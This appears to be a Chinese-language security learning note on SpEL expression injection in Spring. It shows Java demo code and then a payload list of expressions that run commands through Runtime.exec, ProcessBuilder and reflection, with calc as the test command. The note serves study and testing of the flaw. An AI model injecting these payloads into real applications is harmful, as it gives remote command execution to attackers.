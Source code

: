 ```java

        //SpEL支持很多功能特性，如调用方法，访问属性，调用构造函数。调用字符串的“CONCAT”的方法。
        exp = parser.parseExpression("'Hello World'.concat('!')");
        message = (String) exp.getValue();
        System.out.println(message);

        //作为调用JavaBean属性的一个例子，String属性“Bytes”在下面被调用了。
        exp = parser.parseExpression("'Hello World'.bytes");
        byte[] bytes = (byte[]) exp.getValue();
        System.out.println(bytes);

        //SpEL还支持使用标准的“.”符号，即嵌套属性prop1.prop2.prop3和属性值的设置
        //公共字段也可被访问。
        exp = parser.parseExpression("'Hello World'.bytes.length");
        int length = (Integer) exp.getValue();
        System.out.println(length);

        //T操作
        /**
         * T操作可以被用来指定安装一个java.lang.ClassClass (the type). 静态方法也可以使用该运算符调用。
         * 然后该 StandardEvaluationContext使用TypeLocator找到类型和 StandardTypeLocator（可替换）是建立与的理解 java.lang package.
         * 这意味着T()引用内的java.lang类型不需要是 完全限定，但所有其他类型的引用必须。
         */

        //EvaluationContext
        //java.lang.Runtime.getRuntime()
        String ex="T(java.lang.Runtime).getRuntime().exec('calc.exe')";
        String processbuilde="new java.lang.ProcessBuilder('calc.exe').start()";
        //exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc.exe')");
        SimpleEvaluationContext build = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        exp = parser.parseExpression("'Hello World'.bytes.length");
        length = (Integer) exp.getValue(build);
        System.out.println(length);
        exp = parser.parseExpression("new java.lang.ProcessBuilder('calc.exe').start()");
        Process value = exp.getValue(build,Process.class); //解析表达式时使用SimpleEvaluationContext限制T标签.
        //value.exec("calc.exe");

        //new ProcessBuilder("calc").start();

    }
}
```

## `payload`集合
>关于各种执行命令的方式,大哥们总结的手法特别多,直接抄一抄就完美了,不需要动脑子.[SpEL表达式注入漏洞学习和回显poc研究](https://www.cnblogs.com/bitterz/p/15206255.html),[bypass openrasp SpEL RCE 的过程及思考](https://landgrey.me/blog/15/)

```java
// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()


T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

```